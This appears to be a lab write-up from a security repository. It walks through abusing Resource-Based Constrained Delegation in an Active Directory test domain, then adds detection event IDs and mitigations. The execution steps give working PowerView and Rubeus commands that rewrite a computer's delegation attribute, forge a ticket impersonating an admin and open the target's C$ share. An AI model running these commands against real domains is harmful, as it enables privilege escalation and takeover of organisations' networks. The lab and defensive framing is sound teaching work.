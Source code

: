 # Attack Scenario: Resource-Based Constrained Delegation (RBCD) Abuse
This scenario demonstrates abuse of Resource-Based Constrained Delegation, where an attacker controlling a machine account configures another machine to trust it for delegation. This enables impersonation of any domain user (including privileged ones) when accessing services on that resource.

MITRE ATT&CK Techniques:

T1550.002 – Pass-the-Ticket

T1134.001 – Token Impersonation/Theft

##  Lab Environment
Controlled machine account: WS01$

Target system: APP01.internal.lab

Domain Controller: dc01.internal.lab

Privileged user: admin.internal.lab

Preconditions:

- Attacker has rights to modify the msDS-AllowedToActOnBehalfOfOtherIdentity attribute on APP01

- Kerberos Constrained Delegation is configured on the domain

## Objectives
Configure RBCD to allow WS01$ to impersonate any user on APP01

Impersonate a high-privilege user (e.g., Domain Admin)

Access resources on the target machine as that user

## Execution Steps
### 1. Confirm You Control a Machine Account
Use PowerView:

```Get-DomainComputer -Identity WS01```

You should have the ability to modify other objects (GenericWrite, GenericAll, or WriteProperty).

### 2. Configure RBCD on the Target
Use Set-ADComputer (requires ActiveDirectory module or PowerView):

```
$SID = Get-DomainComputer WS01 | Select -ExpandProperty objectsid
$SD = New-Object Security.AccessControl.CommonSecurityDescriptor $false, $false, 'D:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;' + $SID.Value + ')'
Set-DomainObject -Identity APP01 -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SD.GetSddlForm('All')}
```

### 3. Trigger Delegation Using s4u2proxy
Use Rubeus (attacker-side):

```Rubeus.exe s4u /user:WS01$ /rc4:<hash> /impersonateuser:admin /msdsspn:cifs/APP01.internal.lab /ptt```
### 4. Confirm Access
Try:

```dir \\APP01\C$ or Enter-PSSession using injected ticket```

## Detection Guidance
Defender for Identity:
Unusual delegation configurations

"Suspicious Kerberos delegation usage"

Logs:
- 4742: Computer object modified (RBCD attribute)
- 4769: TGS requests for high-privileged users using delegation
- 4624: Logon events to APP01 from an unusual machine account

## Mitigations
Monitor and restrict GenericAll / WriteProperty permissions on computer objects

Alert on changes to msDS-AllowedToActOnBehalfOfOtherIdentity

Use gMSAs and tiered admin access to reduce risk

Limit account permissions with Least Privilege principles

## References
https://dirkjanm.io/abusing-active-directory-acls-weaponizing-ldap/

https://github.com/GhostPack/Rubeus

https://adsecurity.org/?p=4056

https://attack.mitre.org/techniques/T1550/002/

## Navigation
← [Back to Lab Index](../../README.md)
→ [Related: Unconstrained Delegation Abuse](./unconstraied-delegation.md)